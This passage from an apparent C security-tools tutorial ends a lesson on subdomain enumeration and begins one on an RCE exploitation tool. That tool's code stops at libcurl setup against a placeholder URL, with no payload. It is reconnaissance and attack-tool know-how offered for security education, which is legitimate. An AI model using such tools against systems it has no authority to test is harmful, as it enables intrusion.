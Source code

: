 ```c
    return 0;
}
```

#### Explanation:

- The `perform_subdomain_enum` function performs subdomain enumeration by querying the DNS system for host information associated with the specified domain.
- In this example, the target domain is hardcoded (`example.com`). Replace this with the domain you want to enumerate subdomains for.
- The `gethostbyname` function is used to retrieve host information for the specified domain, including aliases and IP addresses.
- This example utilizes functions provided by the DNS resolver library (`resolv.h`) to perform DNS queries for subdomain enumeration.

#### Further Development:

To make this tool more comprehensive and efficient, you can enhance it with the following features:

- Support for recursive subdomain enumeration by querying multiple DNS servers and following DNS delegations.
- Integration with third-party APIs or services (e.g., DNSDB, VirusTotal) to augment subdomain enumeration results and gather additional information.
- Implementation of techniques such as zone transfers or brute force enumeration to discover hidden or unlinked subdomains.

#### Conclusion:

Building a Subdomain Enumeration tool in C helps demonstrate the process of discovering subdomains associated with a domain, which can aid in identifying potential attack vectors or security weaknesses in web applications. By understanding how subdomain enumeration works, developers and security professionals can implement proper security measures to protect their domains.

This concludes our thirty-eighth lesson on building a Subdomain Enumeration tool in C. If you have any questions or would like to explore specific topics further, feel free to ask!

### Lesson 39: Building a Remote Code Execution (RCE) Tool in C

In this lesson, we'll develop a simple command-line tool in C programming to exploit Remote Code Execution (RCE) vulnerabilities. RCE vulnerabilities allow attackers to execute arbitrary code on a remote server, potentially leading to complete compromise of the system. Our tool will craft and send malicious payloads to the target server to demonstrate the impact of RCE vulnerabilities.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <curl/curl.h>

#define TARGET_URL "http://example.com/vulnerable_endpoint"

// Function to perform a Remote Code Execution (RCE) attack
void perform_rce() {
    CURL *curl;
    CURLcode res;

    // Initialize libcurl
    curl = curl_easy_init();
    if (!curl) {
        fprintf(stderr, "Error initializing libcurl\n");
        exit(EXIT_FAILURE);
    }

    // Set the target URL for the RCE attack
    curl_easy_setopt(curl, CURLOPT_URL, TARGET_URL);
```